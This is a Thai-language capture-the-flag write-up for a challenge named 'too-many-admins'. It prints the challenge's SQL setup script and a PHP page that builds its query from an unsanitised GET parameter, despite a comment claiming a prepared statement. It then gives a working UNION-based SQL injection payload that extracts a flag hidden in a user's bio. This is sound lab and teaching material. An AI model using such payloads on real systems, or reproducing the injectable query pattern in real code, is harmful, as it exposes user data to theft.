

# too-many-admins

ข้อนี้เราจะได้ไฟล์โปรเจคมาด้วย
ครับวิเคราะห์ครับ☹️

## dump.sql
```sql
-- Create the 'users' table
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);

-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;
```

คร่าวๆก็คือว่า มันจะสร้าง account มา 500 ตัว ซึ่งตัวที่ {SOME_NUMBER} จะมี flag อยู่ใน bio


## index.php
```php
...
$userParam = $_GET['user'];
// Use prepared statement to prevent SQL injection
if ($userParam) {
    if ($userParam != "all") {
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);
    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";
    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>" . $i . "</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }
    echo "</table>";
}
...
```
คร่าวๆคือเราจะพบว่ามันสามารถ sql injection ได้
~แจ๋วสิครับ ซึ่งแนวคิด inject ก็ง่ายๆ โค้ด sql เดิมๆมันจะ select username, password, bio และก็จะแสดงผล แค่ username, password ซึ่ง flag มันอยู่ที่ bio ของ account ใครสักคน
ผมก็เลย UNION account ที่มี flag อยู่ใน bio ด้วยคำสั่ง LIKE และแทนที่ bio ลงไปใน column username เพื่อให้มันแสดงผลออกมา

payload ก็จะได้เป็นประมาณนี้

```sql
' UNION SELECT bio as username, 'b' as password, 'b' as bio FROM users WHERE bio LIKE 'flag{%';-- -
```

ครับได้ flag



